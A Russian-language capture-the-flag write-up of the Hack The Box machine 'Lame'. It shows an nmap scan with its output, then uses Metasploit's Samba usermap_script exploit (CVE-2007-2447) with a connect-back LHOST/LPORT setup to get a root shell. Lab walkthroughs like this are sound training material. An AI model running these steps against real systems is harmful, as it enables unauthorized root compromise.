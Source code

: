 # 🟢 Lame(Linux, Easy)

###

![](<../.gitbook/assets/1 (1) (1).png>)

### Содержание:

Я считаю, что это самая простая машина на HTB, так как для ее прохождения потребуется только один эксплоит. Для начала мы просканируем порты с дефолтным nmap-скриптом. Затем, запустим метасплоит и найдем эксплоит для Samba версии 3.0.20(CVE-2007-2447). После того, как эксплоит отработает мы получим сразу рут-доступ.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV -Pn 10.10.10.3 -oN nmap
```

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.43
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-01-30T12:13:06-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h35m41s, deviation: 3h32m09s, median: 5m40s
```

Используем флаг -Pn для принудительного сканирования портов, так как без него nmap считает, что хост "лежит".

### Ищем эксплоит в metasploit:

Теперь в метасплоите мы можем посмотреть эксплоиты для самбы версии **3.0.20**:

```
$ msfconsole
msf6 > search 3.0.20
```

Используем данный эксплоит:

```
exploit/multi/samba/usermap_script 2007-05-14 excellent    No    Samba "username map script" Command Execution
```

### Запускаем эксплоит и получаем рута:

```
msf6 > use exploit/multi/samba/usermap_script
```

Настраиваем так:

![](<../.gitbook/assets/2 (1).png>)

**RHOSTS** - удаленная машина, которую будем атаковать

**RPORT** - не меняем, он правильно выставлен

**LHOST** - свой айпи, можно узнать через:

```
$ ip r
```

**LPORT** - свой порт, который еще не занят, например, 9999.

```
msf6 exploit(multi/samba/usermap_script) > exploit
```

![](../.gitbook/assets/3.png)
